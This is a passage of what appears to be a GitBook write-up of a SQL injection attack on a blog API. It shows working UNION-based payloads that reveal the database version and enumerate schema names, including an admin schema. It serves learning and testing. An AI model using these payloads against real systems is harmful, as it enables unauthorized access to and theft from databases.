 It returns a json with 4 values, “_requested\_id_” “_blog\_id_” “_titles_” and “_status_”, the _requested\_id_ and _blog\_id_ reflect the number from the blog parameter, so I pass a single quote with the number 5 that was passed previously and now it returns _null_ where the number 5 was being reflected, that’s a good sign that we can have something here…

There are 3 columns, and we are able to get the version.

{% hint style="success" %}
I tried using valid numbers for the api like 1,2,3,4 etc but non worked till i used -1.

Always user values that dosent exist for sqli.
{% endhint %}

`-1 UNION SELECT NULL,NULL,@@version-- -` .

<figure><img src=".gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

### DBs / Schema Names

{% code overflow="wrap" lineNumbers="true" %}
```sql
-554 UNION ALL SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 1 OFFSET 0 -- -

-554 UNION ALL SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 1 OFFSET 1 -- -

-554 UNION ALL SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 1 OFFSET 2 -- -

# There are 3 DBS/Schemas.
# OFFSET 0 --> information_schema
# OFFSET 1 --> blog
# OFFSET 2 --> vn_admin

#====================================================
# or we can use group_concat() function.
#====================================================

-554 UNION ALL SELECT NULL,NULL,group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA -- -
```
{% endcode %}
